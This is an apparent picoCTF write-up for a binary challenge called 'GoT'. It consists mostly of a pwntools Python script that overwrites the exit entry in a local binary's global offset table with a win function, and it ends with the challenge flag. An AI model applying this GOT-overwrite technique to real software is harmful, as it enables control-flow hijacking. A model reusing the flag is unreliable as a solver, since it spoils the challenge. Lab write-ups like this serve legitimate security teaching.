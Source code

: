 # GoT (Binary)

![title](images/title.png)

Based on the title of the challenge and hint lets see if we can overwrite the global offset table entry for exit with the win function.

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'error'

#setup process and ELF
p = process('./vuln')
e = ELF('./vuln')

#get exit and win
win = e.symbols['win']
exit = e.got['exit']

#overwrite got exit with win
p.sendlineafter('Input address\n', str(exit))
p.sendlineafter('Input value?\n', str(win))

#print the flag(hopefully)
p.recv()
p.recvuntil('\n')
print p.recv()

p.close()

```

<details>
	<summary>Flag</summary>

picoCTF{A_s0ng_0f_1C3_and_f1r3_1ef72b2d}
</details>
